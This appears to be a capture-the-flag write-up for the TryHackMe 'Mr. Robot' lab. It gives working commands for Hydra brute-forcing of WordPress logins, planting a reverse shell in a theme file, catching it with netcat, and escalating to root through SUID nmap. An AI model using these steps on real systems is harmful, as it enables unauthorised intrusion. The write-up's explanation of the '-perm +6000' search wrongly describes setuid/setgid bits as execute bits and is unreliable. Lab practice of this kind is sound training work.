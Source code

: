 # TRYHACKME – Mr. Robot (CTF)

![New Project.png](New_Project.png)

Use nmap to scan target ports

`nmap -T4 10.10.210.21`

![2024-10-30 10_25_08-TRYHACKME - Mr Robot (CTF).docx — Mozilla Firefox.png](2024-10-30_10_25_08-TRYHACKME_-_Mr_Robot_(CTF).docx__Mozilla_Firefox.png)

Port:		Services:

443		https (Hypertext Transfer Protocol Secure)

80		http (Hypertext Transfer Protocol)

After that, we introduce the IP of the machine using the http protocol in our browser, we discover that there is a web page here 

![2024-10-30 10_48_25-TRYHACKME - Mr Robot (CTF).docx — Mozilla Firefox.png](2024-10-30_10_48_25-TRYHACKME_-_Mr_Robot_(CTF).docx__Mozilla_Firefox.png)

Using gobuster tool to discover the directories that exists 

`gobuster dir -u [http://10.10.158.203](http://10.10.158.203) -w /usr/share/wordlist/dirbuster/directory-list-lowercase-2.3-medium.txt`

![2024-10-30 10_50_01-TRYHACKME - Mr Robot (CTF).docx — Mozilla Firefox.png](2024-10-30_10_50_01-TRYHACKME_-_Mr_Robot_(CTF).docx__Mozilla_Firefox.png)

![image.png](image.png)

Navigate to robots.txt file 

![image.png](image%201.png)

Navigate to “key-1-of-3.txt”

![image.png](image%202.png)

Go to "fsocity.dic" and download it 

filter the content with this command

`sort -d fsocity.dic |  uniq -d > new_dic.txt`

![image.png](image%203.png)

Now with the Hydra tool we can bruteforce the user (wordpress username disclosure), but first we need to know how the information is being sent 

To do this we need to use the tool BurpSuite 

![image.png](image%204.png)

After enabling “Intercept” option, we can try login in the site to intercept the request 

![image.png](image%205.png)

![image.png](image%206.png)

`hydra -L /home/kali/Downloads/nfsocity.txt -p admin 10.10.160.233 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30`

- L -> specify the wordlist/dictionary
- p -> specify the password to use

http-post-form -> to websites that use POST methos in their forms

- t 30 -> specifies the number of tasks (or threads) to use for the attack

![image.png](image%207.png)

Now we know that exists three users, but we need to discover their passwords too 

`hydra -l Elliot -P /home/kali/Downloads/fsocity.bk 10.10.104.220 http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username” -t 30`

![image.png](image%208.png)

We have the username and the password, we just need to log in to the page 

![image.png](image%209.png)

![image.png](image%2010.png)

Now that we have access to the page with an account that have administrator privileges, we need to explore it to discover any possible vulnerability 

![image.png](image%2011.png)

We find this page that we can upload .php files to edit the page themes, but we can upload malicious content to reverse shell it

To generate the payload we can access the [https://www.revshells.com/](https://www.revshells.com/) page to do it

![image.png](image%2012.png)

Fill the IP field with the target machine and choose a port to connect through

We just need to copy and paste the content in the header.php file on the page

![image.png](image%2013.png)

To execute the content in this file we need to reload the page, but first we need to put our pc to listen mod to wait for the connection 

`nc -lvnp 9001`

![image.png](image%2014.png)

Now that the pc is listening, we can reload the page to execute the content 

![image.png](image%2015.png)

As we can see, the code was executed successfully and now we have access to the victim 

![image.png](image%2016.png)

Run a pseudo terminal with python to escaping from the restricted shell 

`python3 -c ‘import pty; pty.spawn(”/bin/bash”)’`

![image.png](image%2017.png)

Going to the directory “/home/robot” we can see that exists two files, but the first one we don’t have permissions to read  

![image.png](image%2018.png)

But we can see the content of the second file 

![image.png](image%2019.png)

Now we pick the hash and go to [https://crackstation.net/](https://crackstation.net/) to see if this hash has already been cracked 

![image.png](image%2020.png)

As we can see, this password hash has already been cracked

Now that we know the robot password, we can change to this user

![image.png](image%2021.png)

And now we can see the content of the first file that have the second flag for this challenge  

![image.png](image%2022.png)

Now the first and most common step that we need to do next is privilege escalation and to do it, the most common first command is to discover what binary files/applications we can execute with the privileges that we already have

And the command is...

`find / -perm +6000 2>/dev/null | grep ‘/bin/’`

- “find” - is a command that searches for files based on various criteria.
- “/” - is the root directory, which means the search will start from the root of the file system.
- “-perm +6000” - specifies that we're looking for files with permissions that include the execute bit set for the owner, group, or others (i.e., +x permissions). The +6000 is a symbolic representation of the permissions, where:

6 represents the execute bit set for the owner (4+2=6)

0 represents no permissions for the group

0 represents no permissions for others

In other words, we're searching for files that have execute permissions for anyone (owner, group, or others).

**2>/dev/null**

- “2>” - redirects the standard error stream (file descriptor 2) to a file or device.
- “/dev/null” - is a special file that discards any input sent to it, effectively suppressing error messages.

By redirecting the standard error stream to /dev/null, we're ignoring any error messages that might occur during the search process.

**| grep '/bin/'**

- “'/bin/'” - is the pattern we're searching for, which is the string /bin/. This is likely used to filter the results to only show files that are located in the /bin directory.

Now we need to analyze the output and try to find some unusual programs 

![image.png](image%2023.png)

The binary file that stands out most is the nmap file 

Now we can search ways to do privilege escalation through nmap and to do this, we can go to **[https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)**  

Doing these two commands here, we can verify that we are in root

**`nmap --interactive`**

**`!sh`**

![image.png](image%2024.png)

Now we explore more to find the third flag

Going to the root directory we find the last flag for this challenge

![image.png](image%2025.png)